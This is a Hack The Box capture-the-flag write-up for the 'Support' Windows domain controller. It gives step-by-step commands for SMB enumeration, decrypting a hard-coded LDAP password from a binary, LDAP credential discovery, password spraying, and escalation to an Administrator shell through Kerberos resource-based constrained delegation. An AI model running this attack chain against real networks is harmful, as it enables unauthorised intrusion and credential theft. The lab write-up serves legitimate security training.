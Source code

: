 ```yaml
---
description: Writeup Hack The Box Support
---
```


# Support

<figure><img src="../../.gitbook/assets/support.png" alt=""><figcaption><p>HTB Support</p></figcaption></figure>

### Port scanning

```bash
sudo nmap -sV -sT -sC -oA nmap_initial 10.10.11.174
```

Output:

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-17 21:32 WIB
Nmap scan report for support.htb (10.10.11.174)
Host is up (0.023s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-07-17 14:32:46Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2023-07-17T14:32:52
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.55 seconds
```

Enumerate SMB

```bash
smbclient -L 10.10.11.174 --no-pass
```

<figure><img src="../../.gitbook/assets/image (29).png" alt=""><figcaption><p>Found shares</p></figcaption></figure>

And then, download all files from support-tools.

```bash
smbclient '//10.10.11.174/support-tools' -N -c 'prompt OFF;recurse ON;mget *'
```

<figure><img src="../../.gitbook/assets/image (23).png" alt=""><figcaption><p>Download all files</p></figcaption></figure>

Now, we will extract the password from **UserInfo**. There are two options to get the password: static analysis and dynamic analysis.

### Dynamic Analysis

Try to run UserInfo.exe, before that, run tcpdump to check if there is any requests from the app.

```bash
sudo tcpdump -i tun0
```

```bash
mono UserInfo.exe find -first ''
```

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption><p>Run the program</p></figcaption></figure>

Check at tcpdump.

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption><p>tcpdump response</p></figcaption></figure>

After confirmed that the UserInfo send connection to the server, analyze the traffic with Wireshark.

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption><p>Paintext password</p></figcaption></figure>

Got credentials:

```
support\ldap : nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

### Static Analysis

Use AvaloniaILSpy do decompile the program.

<figure><img src="../../.gitbook/assets/image (26).png" alt=""><figcaption><p>ILspy Linux</p></figcaption></figure>

We found the encrypted password and the key. Use python script to decrypt the key.

```python
#! /usr/bin/env python3
import base64

def get_password():
    encoded_string = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
    key = b"armando"

    array = base64.b64decode(encoded_string)
    array2 = bytearray(array)

    for i in range(len(array)):
        array2[i] = (array[i] ^ key[i % len(key)] ^ 0xDF)

    return array2.decode("utf-8")
password = get_password()
print(password)
```

<figure><img src="../../.gitbook/assets/image (24).png" alt=""><figcaption><p>Get the password</p></figcaption></figure>

### LDAP Enumeration

Enumerate all information using ldapsearch.

Query all username:

```bash
ldapsearch -H ldap://10.10.11.174 -D 'support\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' \
-b 'DC=support,DC=htb' "(objectClass=person)" | \
grep "sAMAccountName:" | sed 's/sAMAccountName: //g'
```

Query all distinguished name.

```bash
ldapsearch -H ldap://10.10.11.174 -D 'support\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b 'DC=support,DC=htb' "(objectClass=person)" | grep "dn:"
```

Enumerate all information at dn support.

```bash
ldapsearch -H ldap://10.10.11.174 -D 'support\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "CN=support,CN=Users,DC=support,DC=htb"
```

We found a credential at support info.

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption><p>Found password</p></figcaption></figure>

Found creds:

```
Ironside47pleasure40Watchful
```

Next, spray the password to other account.

```bash
crackmapexec winrm 10.10.11.174 -u users.txt -p 'Ironside47pleasure40Watchful' --continue-on-success
```

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption><p>Password spray with Crackmapexec</p></figcaption></figure>

### Get Low User

```bash
evil-winrm -i support.htb -u support -p Ironside47pleasure40Watchful
```

<figure><img src="../../.gitbook/assets/image (20).png" alt=""><figcaption><p>Get low user</p></figcaption></figure>

### Privilege Escalation

After googling, i found useful article here:

* https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/resource-based-constrained-delegation
* https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution
* https://learn.microsoft.com/en-us/windows-server/security/kerberos/kerberos-constrained-delegation-overview
* https://www.thehacker.recipes/ad/movement/kerberos/delegations/rbcd

First, we need to add computer to domain with Impacket.

```bash
impacket-addcomputer 'support.htb/support:Ironside47pleasure40Watchful' -computer-name 'ayanami' -computer-pass 'ayanami'
```

Then, import PowerView on target system.

```powershell
Import-Module .\PowerView.ps1
Get-DomainComputer
Get-DomainComputer ayanami
```

Now, edit the target's "rbcd" attribute

```bash
impacket-rbcd -delegate-to 'DC$' -dc-ip 10.10.11.174 -action 'read' 'support.htb/support:Ironside47pleasure40Watchful'
impacket-rbcd -delegate-from 'ayanami$' -delegate-to 'DC$' -dc-ip 10.10.11.174 -action 'write' 'support.htb/support:Ironside47pleasure40Watchful'
```

Now, obtain a ticket (delegation operation)

```bash
impacket-getST -spn 'cifs/dc.support.htb' -impersonate Administrator -dc-ip 10.10.11.174 'support.htb/ayanami$:ayanami'
```

Get shell as Administrator.

```bash
KRB5CCNAME=administrator.ccache impacket-psexec -dc-ip 10.10.11.174 -no-pass -k support.htb/administrator@dc.support.htb
```

<figure><img src="../../.gitbook/assets/image (17).png" alt=""><figcaption><p>Owned</p></figcaption></figure>

### Tools Used

Tools used in this machine.

* [https://github.com/icsharpcode/AvaloniaILSpy](https://github.com/icsharpcode/AvaloniaILSpy)
* ldapsearch
* [https://github.com/Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm)
* [https://github.com/Porchetta-Industries/CrackMapExec](https://github.com/Porchetta-Industries/CrackMapExec)
* [https://github.com/fortra/impacket](https://github.com/fortra/impacket)
* [https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
